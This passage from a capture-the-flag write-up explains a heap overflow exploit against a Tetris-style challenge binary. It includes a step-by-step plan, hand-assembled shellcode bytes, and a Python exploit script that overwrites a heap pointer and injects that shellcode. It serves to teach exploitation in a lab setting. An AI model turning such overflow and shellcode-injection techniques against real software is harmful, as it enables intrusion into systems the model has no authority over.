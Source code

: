 As a review here is the plan of the first part of our exploit:
1. Initialize the `heap_top` to `0x400202` using the overflow
2. Get `7` high scores back to back while writing no name
   1. This increments `heap_top` to `0x40021e`
3. On the 7th, write the name `\x50` to the `heap_top` (for the jump)

Now all we need to do is overwrite some other code with shellcode to call the `hw_log()`. Ah, why not just overwrite `heck_high_score()`, since we already have a tetromino setup to get there (`0x400202`). Once we are there, we just need to overwrite the location with some simple code:
```c
mov edi, 0x41414141
call $+0xb6c
nop
nop

// hw_log(0x41414141)
// "\xBF\x41\x41\x41\x41\xE8\x67\x0B\x00\x00\x90\x90"
```

So to complete our plan, it looks like this:

1. Initialize the `heap_top` to `0x400202` using the overflow
2. Get `7` high scores back to back while writing no name
   1. This increments `heap_top` to `0x40021e`
3. On the 7th, write the name `\x50` to the `heap_top` (for the jump)
4. Reinitialize the `heap_top` to `0x400202` using the overflow
5. Write the Shellcode
6. Get a high score (to trigger the Shellcode)

Let's put it all together and get that flag!

```python
# Activate Cheat Mode
p.sendline("\nw w w w w w w w \n\nw w w w w w w \n\nw w w w w w w w \n\nw w w w w w w w \n\ncaaaaaadw w w w w w w w w \n\nw w w w w w w w\n\naaaaaadd dwd caaaad aaddda daadwd dddd aaddw aaa ddaacd aadcaaw d awa daaw aw  awa daa dad aaawd w w w \n\naaaaaadd dwd dddd aaa  aacddddd dddddaaa aaacw  aaa awa awa wdd daaawww dw waa awaaaa caaaaaawa ddddd  w w w\n")

# Initialize heap_top to 202
p.sendline("JaaaaawwwO" + "s"*18 + "Ja w w w w w w w \n\n\n\n")
p.sendline("\n\n")

# Increment to 212
for i in range(6):
    new_hs()
new_hs(skip=True)

# Overwrite the jump
p.sendline("\x50\n")

# Reinit heap_top to 202
p.sendline("JaaaaawwwO" + "s"*18 + "Ja w w w w w w w \n\n\n\n")
p.sendline("\n\n")

# Write Shellcode
new_hs(skip=True)
#p.sendline("\n")
p.sendline("\xBF\x41\x41\x41\x41\xE8\x67\x0B\x00\x00\x90\x90\n")

# Call Shellcode
new_hs(skip=True)
```
